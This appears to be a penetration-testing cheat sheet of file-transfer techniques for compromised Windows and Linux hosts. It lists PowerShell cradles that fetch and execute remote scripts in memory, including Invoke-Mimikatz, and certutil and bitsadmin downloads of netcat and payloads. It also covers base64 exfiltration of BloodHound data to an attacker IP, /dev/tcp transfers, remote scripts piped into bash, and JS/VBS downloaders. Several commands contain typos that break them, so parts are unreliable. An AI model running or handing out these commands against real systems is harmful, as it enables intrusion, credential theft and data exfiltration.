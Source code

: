 ## POWERSHELL IN-MEMORY DOWNLOAD AND EXECUTE:  
1) iex(iwr'http://ip/file.ps1')  
2) $down=[System.NET.WebRequest]::Create("http://ip/file.ps1"); $read=$down.GetResponse(); IEX([System.IO.StreamReader]($read.GetReasponseStream())).ReadToEnd()  
3) $file=New-Object -ComObject Msxms2.XMLHTTP;$file.open('GET','http://ip/file.ps1',$false);$file.send();iex $file.responseText  
4) iex(New-Object Net.WebClient).DownloadString('http://ip/reverse.ps1')  
5) $ie=Nwe-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://ip/reverse.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response  

## CURL/WGET:  
wget http://10.11.0.106/nc.exe -O nc.exe  
curl http://10.11.0.106/nc.exe -o nc.exe  

## WINDOWS:  
1) powershell (New-Object System.Net.WebClient).DownloadFile("https://[attacker ip]/test.txt", "test.txt")  
2) certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe  
3) Copy from SMB share: copy \\[attacker]\kali\reverse.exe C:\PrivEsc\reverse.exe  
4) Download: (New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")  
5) Download: Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1  
6) Download and execute in memory: IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')  
7) Pipeline iex: Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex  
8) Bypass IE error: Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex  
10) Disable Internet Explorer’s First Run customization: reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2  

## WINDOWS TO LINUX (BASE64 encoded):  
1) $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))  
2) Invoke-WebRequest -Uri http://[ATTACKER IP]:443 -Method POST -Body $b64  
3) DECODE ON LOCAL MACHINE: echo <base64> | base64 -d -w 0 > bloodhound.zip  

## BITSADMIN:  
1) Download: bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe  
2) Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"  
3) Upload: Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql  

## WINDOWS CMD:  
xcopy \\10.10.10.132\share\nc.exe nc.exe  
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe  

## RDP SESSION MOUNT DISK:  
1) Create connection: rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'  
2) Transfer file: copy \\tsclient\c\temp\mimikatz.exe .  

## OPENSSL BASE64 WINDOWS:  
1) Encryption: openssl.exe enc -base64 -in nc.exe -out nc.txt  
2) Decryption: openssl.exe enc -base64 -d -in nc.txt -out nc.exe  

## LINUX SMB SHARE (IMPACKET):  
smbserver.py -smb2support <share name> <location>  
smbserver.py -smb2support share $(pwd)  

## OPENSSL LINUX:  
1) Create certificate: openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem  
2) Stand up server: openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh  
3) Download file: openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh  

## BASH (/DEV/TCP):  
1) Connect to Target's Webserver: exec 3<>/dev/tcp/10.10.10.32/80  
2) HTTP GET Request: echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3  
3) Print the Response: cat <&3  

## PHP:  
1) php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'  
2) php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'  
3) php -r '$rfile = "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"; $lfile = "LinEnum.sh"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'  
4) Pipe output to bash: php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash  

## PYTHON 2:  
import urllib  
urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")  

## PYTHON 3:  
import urllib.request  
urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")  

## RUBY:  
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'  
## PERL:  
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'  

## NETCAT FILE TRANSFER:    
1) Start listener: nc -lvnp 80 <LinEnum.sh  
2) Download file: cat < /dev/tcp/10.10.10.32/80 > LinEnum.sh  

## FTP:  
python -m pyftpdlib -p 21  

## JAVASCRIPT:  
1) Create JS file as wget.js:  
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");  
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);  
WinHttpReq.Send();  
BinStream = new ActiveXObject("ADODB.Stream");  
BinStream.Type = 1;  
BinStream.Open();  
BinStream.Write(WinHttpReq.ResponseBody);  
BinStream.SaveToFile(WScript.Arguments(1));  

2) Download file: cscript /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1  

## VBSCRIPT:  
1) Create file wget.vbs:  
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  
dim bStrm: Set bStrm = createobject("Adodb.Stream")  
xHttp.Open "GET", WScript.Arguments.Item(0), False  
xHttp.Send  

with bStrm  
    .type = 1  
    .open  
    .write xHttp.responseBody  
    .savetofile WScript.Arguments.Item(1), 2  
end with  

2) Download file: cscript /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1  
